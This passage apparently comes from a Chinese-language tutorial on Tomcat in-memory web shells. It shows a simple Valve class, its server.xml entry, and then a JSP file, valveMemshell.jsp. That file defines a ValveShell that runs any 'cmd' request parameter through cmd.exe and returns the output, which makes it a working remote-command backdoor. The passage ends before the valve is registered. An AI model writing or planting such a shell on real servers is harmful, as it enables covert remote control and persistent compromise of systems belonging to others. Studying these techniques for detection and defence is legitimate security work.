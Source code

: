 ```plain
package org.example.valve;

import org.apache.catalina.connector.Request;
import org.apache.catalina.connector.Response;
import org.apache.catalina.valves.ValveBase;

import javax.servlet.ServletException;
import java.io.IOException;

public class HelloValve extends ValveBase {
    @Override
    public void invoke(Request request, Response response) throws IOException, ServletException {
        System.out.println("yes");
    }
}
```

Tomcat中的server.xml配置：

```plain
<Valve className="org.example.valve.HelloValve" />
```

### 7.3 Valve内存马

valveMemshell.jsp:

```plain
<%--
  Created by IntelliJ IDEA.
  User: Dili
  Date: 2023/9/22
  Time: 23:12
  To change this template use File | Settings | File Templates.
--%>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>

<%!
    public class ValveShell extends ValveBase {
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            if(request.getParameter("cmd") != null) {
                InputStream in = null;
                try {
                    in = Runtime.getRuntime().exec(new String[]{"cmd.exe", "/C", request.getParameter("cmd")}).getInputStream();
                    Scanner scanner = new Scanner(in).useDelimiter("\\A");
                    String out = scanner.hasNext()?scanner.next():"";
                    response.getWriter().write(out);
                } catch (Exception e) {}
            }
        }
    }
%>

```